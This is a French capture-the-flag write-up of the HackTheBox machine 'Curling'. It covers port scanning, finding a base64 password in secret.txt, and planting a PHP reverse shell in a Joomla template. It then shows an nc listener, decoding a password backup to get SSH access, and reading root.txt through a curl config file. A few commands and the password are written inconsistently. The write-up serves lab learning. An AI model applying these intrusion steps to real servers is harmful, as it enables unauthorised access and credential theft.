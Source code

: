 # Curling writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/13/6/1553953753-capture-du-2019-03-30-14-49-00.png)]

Nmap Scan
----

    Starting Nmap 7.01 ( https://nmap.org ) at 2019-03-30 14:55 CET
    Nmap scan report for 10.10.10.150
    Host is up (0.045s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
    |_  256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
    80/tcp open  http?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 193.48 seconds
    
Alors concrètement il y'a 2 ports ouvert le SSH pour le 22 et le HTTP pour le 80. Nous allons un peu énumérer sur le serveur web.

HTTP
----

Quand nous envoyions une rêquete HTTP avec curl, on peut constater que il y'a un fichier spécial nommé secret.txt. Nous allons essayer de lire ce fichier texte.

    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150
    [...SNIP...]
    </body>
      <!-- secret.txt -->
    </html>
    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150/secret.txt
    Q3VybGluZzIwMTgh
    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150/secret.txt -s|base64 -d
    Curling2018!
    
Ceci ressemble à un mot de passe, probablement pour le CMS. Il y'a aussi un nom d'utilisateur dans un article ça pourrais nous servir.

[![forthebadge made-with-python](https://cdn.discordapp.com/attachments/556442801085218827/561556044367527979/unknown.png)]

J'ai pas encore lancé de gobuster je vais lancé ça automatiquement.

Gobuster
----
    root@seyptoo-Aspire-E5-721:~/htb/writeup/Curling# gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://10.10.10.150 -o output-gobuster.log

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.150/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlist/directory-list-2.3-medium.txt
    [+] Output file  : output-gobuster.log
    [+] Status codes : 200,204,301,302,307
    =====================================================
    /images (Status: 301)
    /media (Status: 301)
    /templates (Status: 301)
    /modules (Status: 301)
    /bin (Status: 301)
    /plugins (Status: 301)
    /includes (Status: 301)
    /language (Status: 301)
    /components (Status: 301)
    /cache (Status: 301)
    /libraries (Status: 301)
    /tmp (Status: 301)
    /layouts (Status: 301)
    /administrator (Status: 301)

 Nous avons beaucoup de dossiers, on va s'intéréssé à la page d'administration, le CMS utilisé est Joomla. J'ai essayer avec plusieurs utilisateur notamment avec admin, administrator etc.. et finalement l'utilisateur est floris et le mot de passe est Curling2018!. La connexion fonctionne avec succès.
 
 Username : floris<br />
 Password : Curling2018
 
 Joomla
 ----
 
Une fois connecté sur le CMS, allez sur l'onglet Templates et ensuite il y'aurais deux autres onglets nommé Styles et Templates, cliquez sur Templates après avoir cliqué vous devez cliqué sur 'Beez3 Details and Files' de crée un nouveau fichier php, pour le code php je vous conseille pentestmonkey une fois le code mis et bien sauvegardé. Vous pouvez exécuter votre code dans /templates/beez3/your.php


Shell > User.txt
----
    root@Computer:~/htb/writeup/Curling# nc -lvnp 1234
    Listening on [0.0.0.0] (family 0, port 1234)
    Connection from [10.10.10.150] port 1234 [tcp/*] accepted (family 2, sport 58834)
    [...SNIP...]
    $ python3 -c "import pty;pty.spawn('/bin/bash')"
    www-data@curling:/$ ls
    bin   home            lib64       opt   sbin      sys  vmlinuz
    boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
    dev   initrd.img.old  media       root  srv       usr
    etc   lib             mnt         run   swap.img  var
    www-data@curling:/$ cd /home/floris
    www-data@curling:/home/floris$ ls
    admin-area  password_backup  user.txt
    
Comme vous pouvez le voir il y'a un fichier password_backup, le fichier user.txt est impossible à lire car nous avons pas les permissions de lire ce fichier. Donc je vais transférer le fichier password_backup vers ma machine physique.

[![forthebadge made-with-python](https://im.ezgif.com/tmp/ezgif-1-6c0da889e0b9.gif)]

Donc une fois que le fichier a été transférer nous pouvons jouer avec le fichier backup. Alors concrètement si nous regardons le fichier c'est un fichier en hex, nous allons utillisé la commande xxd pour convertir ça en binaire.

    root@Computer:~/htb/writeup/Curling# xxd -r password_backup > file.bin
    root@Computer:~/htb/writeup/Curling# file file.bin 
    file.bin: bzip2 compressed data, block size = 900k
    
Maintenant si nous regardons le type du fichier c'est un fichier compressé en bzip2, nous allons décompressé ça avec la commande bzip2. Ensuite il faut changer l'extension du fichier.

    root@Computer:~/htb/writeup/Curling# bzip2 -d file

Le fichier a été décompressé avec succès sans aucun problème ensuite nous allons revoir le type du fichier maintenant.

    root@Computer:~/htb/writeup/Curling# mv file.out file.out.tar
    root@Computer:~/htb/writeup/Curling# tar -xvf file.out.tar
    extracting : password.txt
    root@Computer:~/htb/writeup/Curling# cat password.txt
    5d<wdCbdZu)|hChXll
    
Nous avons réussis à chopper le mot de passe de l'utilisateur floris donc on va essayer de se connecter en SSH et de check.

    root@Computer:~/htb/writeup/Curling# ssh floris@10.10.10.150
    floris@10.10.10.150's password: 
    [...SNIP...]
    floris@curling:~$ wc -c user.txt
    33 user.txt
 
PrivEsc
----
Pour le privesc il y'a rien de bien compliqué il suffit de regarder le dossier admin-area dans /home/floris. Dans le fichier input vous devez simplement modifier la variable par file:///root/root.txt pour lire le fichier root.txt. Et lisez rapidement le fichier report avant que quelqu'un d'autre modifie le fichier input.

    file input  :
        url = "file://root/root.txt"
    file output :
        82c198ab6f[...SNIP...]
 
  
